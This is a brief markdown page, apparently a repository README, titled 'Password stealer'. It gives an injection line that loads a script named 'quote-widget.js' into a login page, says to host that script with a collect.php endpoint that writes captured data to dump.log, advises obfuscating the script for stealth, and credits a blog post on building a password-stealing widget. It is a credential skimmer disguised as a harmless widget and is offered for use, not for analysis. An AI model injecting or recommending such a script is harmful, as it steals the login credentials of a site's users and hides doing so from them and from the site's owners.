 ## Password stealer

Add this line to a login page

    <script src="http://127.0.0.1/quote-widget.js"></script>
    
Host the quote-widget.js script, collect.php file, and give collect.php permission to write a dump.log file.

Obfuscate the script for more stealth.

Source: http://captainkuro.com/javascript/create-javascript-widget-to-steal-password/?i=1
